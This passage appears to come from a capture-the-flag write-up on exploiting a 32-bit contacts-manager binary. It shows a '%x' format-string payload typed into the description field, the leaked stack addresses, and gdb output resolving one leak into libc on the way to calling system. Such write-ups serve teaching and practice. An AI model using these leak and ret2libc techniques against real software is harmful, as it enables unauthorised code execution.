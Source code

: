 A format string vulnerability at `.text:08048C22`! Cool, and if we look at the code, it looks like the description is the culprit.

So now the question is, how do we put this all together? Well for starters, we don't have any calls to `system` or `execve` which would give us a shell on the system so that means we would need either a libc leak (by reading from a GOT pointer) or guessing the libc that the challenge is using. During the competition we exfiltrated the libc binary from the challenge, precision (for a 32 bit libc it is located here `/lib/i386-linux-gnu/libc.so.6`). And dropping this libc in IDA we can find out where `system` is relative to whatever we decide to leak.

But we are still left with the problem of leaking some sort of address located in libc that we can apply some offset to to find the address of libc.

Well we do have a write primitive with our format string so let's see if that gives us anything interesting...

{% highlight bash lineanchors %}
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 1
Contact info:
    Name: A
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No: A
    Length of description: 100
    Enter description:
        %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 4
Contacts:
    Name: A
    Length 100
    Phone #: A
    Description: 8f3a008.f7614971.f776cff4.0.0.fffc5b08.8048c99.804b0a8.64.8f3a008.8f3a018
{% endhighlight %}

The second address looks pretty interesting, I wonder what it resolves to:

{% highlight nasm lineanchors %}
gdb$ x/5i f7e6c971
   0xf7e6c971 <_IO_vfscanf+17>:    add    ebx,0x158683
   0xf7e6c977 <_IO_vfscanf+23>: sub    esp,0x22c
   0xf7e6c97d <_IO_vfscanf+29>: mov    esi,DWORD PTR [ebp+0x8]
   0xf7e6c980 <_IO_vfscanf+32>: mov    DWORD PTR [ebp-0x1b0],eax
   0xf7e6c986 <_IO_vfscanf+38>: mov    edi,DWORD PTR [ebp+0xc]
{% endhighlight %}
